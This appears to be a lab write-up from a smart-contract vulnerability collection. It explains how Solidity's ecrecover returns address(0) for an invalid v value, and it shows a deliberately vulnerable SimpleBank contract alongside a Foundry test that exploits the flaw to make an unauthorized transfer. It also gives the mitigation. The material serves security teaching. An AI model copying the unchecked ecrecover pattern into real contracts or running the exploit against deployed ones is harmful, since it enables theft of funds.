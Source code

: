 [ecrecover.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ecrecover.sol)

# ecRecover returns address(0)

**Name:** ecrecover returns address(0)

**Description:** In the SimpleBank contract, the transfer function takes a message hash and a signature (v, r, s values) as inputs. It recovers the signer address and checks if it equals Admin. The vulnerability lies in the fact that the ecrecover function may return a 0x0 address when the signature parameters are invali, If v value isn't 27 or 28. it will return address(0).

**Mitigation:**

Verify that the result from ecrecover isn't 0 or instead use OpenZeppelin’s ECDSA library.

**REF:**

https://twitter.com/1nf0s3cpt/status/1674268926761668608

https://github.com/code-423n4/2021-09-swivel-findings/issues/61

https://github.com/Kaiziron/numen_ctf_2023_writeup/blob/main/wallet.md

**SimpleBank Contract:**

```jsx
contract SimpleBank {
    mapping(address => uint256) private balances;
    address Admin; //default is address(0)

    function getBalance(address _account) public view returns (uint256) {
        return balances[_account];
    }

    function recoverSignerAddress(
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) private pure returns (address) {
        address recoveredAddress = ecrecover(_hash, _v, _r, _s);
        return recoveredAddress;
    }

    function transfer(
        address _to,
        uint256 _amount,
        bytes32 _hash,
        uint8 _v,
        bytes32 _r,
        bytes32 _s
    ) public {
        require(_to != address(0), "Invalid recipient address");

        address signer = recoverSignerAddress(_hash, _v, _r, _s);
        console.log("signer", signer);
        //Mitigation
        //require(signer != address(0), "Invalid signature");
        require(signer == Admin, "Invalid signature");

        balances[_to] += _amount;
    }
}
```

***\*How to Test:\****

forge test --contracts src/test/***\*ecrecover.sol\**** -vvvv

```jsx
// Function to test a ecRecover vulnerability
    function testecRecover() public {
        // Emits a log with the balance of the current contract before exploitation
        emit log_named_decimal_uint(
            "Before exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );

        // Generates a message hash
        bytes32 _hash = keccak256(
            abi.encodePacked("\\x19Ethereum Signed Message:\\n32")
        );

        // Signs the generated hash using vm.sign function. Here, 1 represents the account index
        // The returned variables r and s are part of the ECDSA signature (Elliptic Curve Digital Signature Algorithm)
        (, bytes32 r, bytes32 s) = vm.sign(1, _hash);

        // Sets the v variable to 29
        // Typically in Ethereum, v is 27 or 28. When v is neither 27 nor 28, 
        // the ecrecover function used for signature validation will return address(0)
        uint8 v = 29;

        // Calls the transfer function of the SimpleBankContract with an incorrect v value
        // If SimpleBankContract does not correctly validate the v value of the signature,
        // this could lead to an unauthorized transfer
        SimpleBankContract.transfer(address(this), 1 ether, _hash, v, r, s);

        // Emits a log with the balance of the current contract after the exploit
        emit log_named_decimal_uint(
            "After exploiting, my balance",
            SimpleBankContract.getBalance(address(this)),
            18
        );
    }
```

**Red box: returned zero address.**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fe8189c2a-67a9-4ddc-8a03-be3b2bdcce6a%2FUntitled.png?table=block&id=5f54d930-33e2-4f0a-87d5-98ce4bcb4a11&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)
